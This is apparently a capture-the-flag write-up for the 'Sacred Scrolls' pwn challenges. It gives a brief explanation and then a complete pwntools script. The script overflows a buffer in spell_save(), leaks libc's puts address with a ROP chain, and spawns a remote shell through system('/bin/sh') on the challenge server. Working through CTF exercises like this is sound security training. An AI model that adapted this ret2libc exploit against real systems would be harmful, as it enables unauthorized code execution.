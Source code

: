 # Sacred Scrolls / Sacred Scrolls' Revenge (Pwn - Easy)

- `spell_save()` function is vulnerable to buffer overflow since the destination buffer is only 1 byte while the `memcpy()` is copying more than it.
- use buffer overflow to print `puts()` function address on server's `libc`
- calculate offset
- return back to main
- repeat buffer overflow but now spawn a shell

The main difference between `Sacred Scrolls` and `Sacred Scrolls' Revenge` challenge is the base64 input validation. The former one allows `+`, `/`, and `=` while the latter one only allows `[a-zA-Z0-9]`. Luckily my payload only contains alphanumeric characters to begin with. Therefore, the following python3 script works for both challenges.

```sh
$ python3 solve.py HOST=206.189.118.55 PORT=32482
```

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template sacred_scrolls
from pwn import *
import os
import time

# Set up pwntools for the correct architecture
exe = context.binary = ELF("sacred_scrolls")
libc = ELF("./glibc/libc.so.6")
rop = ROP(exe)

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR


host = args.HOST or "206.189.118.55"
port = int(args.PORT or 32482)


def start_local(argv=[], *a, **kw):
    """Execute the target binary locally"""
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)


def start_remote(argv=[], *a, **kw):
    """Connect to the process on the remote host"""
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io


def start(argv=[], *a, **kw):
    """Start the exploit against the target."""
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)


# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = """
tbreak main
continue
""".format(
    **locals()
)

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      No PIE (0x400000)
# RUNPATH:  b'./glibc/'


def gen_input(rop):
    with open("spell.txt", "wb") as f:
        f.write(rop.chain())

    time.sleep(1)
    os.system("rm -f spell.zip")
    os.system("zip spell.zip spell.txt")
    os.system("base64 -w 0 < spell.zip > inp")
    time.sleep(1)

    with open("inp", "rb") as f:
        inp = f.read()
    return inp


def submit_and_trigger(io, inp):
    io.sendlineafter(b"tag: ", b"1")
    io.sendlineafter(b">> ", b"1")
    io.sendlineafter(b"zip): ", inp)
    io.sendlineafter(b">> ", b"2")
    io.sendlineafter(b">> ", b"3")


pop_rdi_ret = rop.rdi.address
puts_got = exe.got["puts"]
puts_plt = exe.plt["puts"]
main_addr = exe.symbols["main"]
puts_offset = libc.symbols["puts"]

signature = b"\xf0\x9f\x91\x93\xe2\x9a\xa1"
pad = b"A" * 33

rop.raw(signature)
rop.raw(pad)
rop.raw(pop_rdi_ret)
rop.raw(puts_got)
rop.raw(puts_plt)
rop.raw(main_addr)

inp = gen_input(rop)

io = start()

submit_and_trigger(io, inp)

io.recvuntil(b"saved!\n")
#
leaked_puts = io.recvline().strip()
leaked_puts = int.from_bytes(leaked_puts, byteorder="little")
log.info(f"leaked: {hex(leaked_puts)}")

libc.address = leaked_puts - puts_offset

system_addr = libc.symbols["system"]
bin_sh = next(libc.search(b"/bin/sh"))

rop = ROP(exe)

rop.raw(signature)
rop.raw(pad)
rop.raw(rop.ret.address)
rop.raw(pop_rdi_ret)
rop.raw(bin_sh)
rop.raw(system_addr)

inp = gen_input(rop)

submit_and_trigger(io, inp)

io.interactive()
```
